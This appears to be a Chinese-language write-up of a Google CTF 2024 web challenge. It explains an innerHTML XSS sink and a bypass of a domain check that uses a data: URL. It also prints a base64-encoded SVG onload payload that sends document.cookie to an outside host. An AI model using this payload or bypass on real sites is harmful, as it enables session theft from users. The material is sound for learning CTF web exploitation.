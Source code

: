 他會去 `page.json` 取得對應 page id 的資料並回傳 json

```json
{
  "floating-point": {
    "title": "0.1 + 0.2 != 0.3",
    "html": "Because of the underyling floating point arithmetic, in JavaScript 0.1+0.2 is <b>not</b> equal to 0.3!"
  },
  "document-all": {
    "title": "document.all",
    "html": "document.all is an instance of Object, you can check it. But then: <code>typeof document.all === 'undefined'</code>!"
  },
  "plus-operator": {
    "title": "plus operator",
    "html": "Here's a little riddle: what is the result of <code>[]+{}</code>? It's <code>\"[object Object]\"</code>!"
  },
  "no-lowercase": {
    "title": "no lowercase characters",
    "html": "Do you know it's possible to call arbitrary JS code without using lowercase characters? Here I am calling <code>console.log(1)</code>: <code>[]['\\143\\157\\156\\163\\164\\162\\165\\143\\164\\157\\162']['\\143\\157\\156\\163\\164\\162\\165\\143\\164\\157\\162']('\\143\\157\\156\\163\\157\\154\\145\\56\\154\\157\\147\\50\\61\\51')()    </code>"
  }
}
```

`sap.js` 拿到 page info 以後會直接用 `innerHTML` 把 `json.html` 放進 `output` 裡，這邊會產生 xss

```js
        const json = await resp.json();
        if (typeof json.html === "string") {
          output.innerHTML = json.html;
        }
```

所以我們的目標是要自己架一個網站裡面會嵌入目標網站的 `sap.html` 然後再操作 page info url 去取得有 xss payload 的 page info 讓 `sap.html` 去載入造成 xss，再將自己架的網頁的 url 送給目標的 bot 取得 cookie。

## 解題

這題的重點是要如何繞 `if (h.getDomain() !== "sappy-web.2024.ctfcompetition.com")` 基本上除非 `goog.Uri` 有洞，否則不太可能繞過，但是他沒有限制 `scheme` 只能用 http 或 https，而 fetch 是可以塞 data scheme 的，所以我就可以構造以下 url

`data://sappy-web.2024.ctfcompetition.com/;base64,eyJodG1sIjoiPHN2Zz48c3ZnL29ubG9hZD0nd2luZG93LmxvY2F0aW9uPVwiaHR0cHM6Ly92cG4uY2h1bW15ZG5zLmNvbToyMDAwMC94c3NcIitkb2N1bWVudC5jb29raWUnPiJ9Cg==#`

其中 `data://sappy-web.2024.ctfcompetition.com/` 可以保證 `getDomain` 是 `sappy-web.2024.ctfcompetition.com` 然後 `;base64,` 表示後面的東西要過 base64 decode 接著後面的 base64 就是我們 payload 的 json

```json
{
  "html": "<svg><svg/onload='window.location=\"https://vpn.chummydns.com:20000/xss\"+document.cookie'>"
}
```
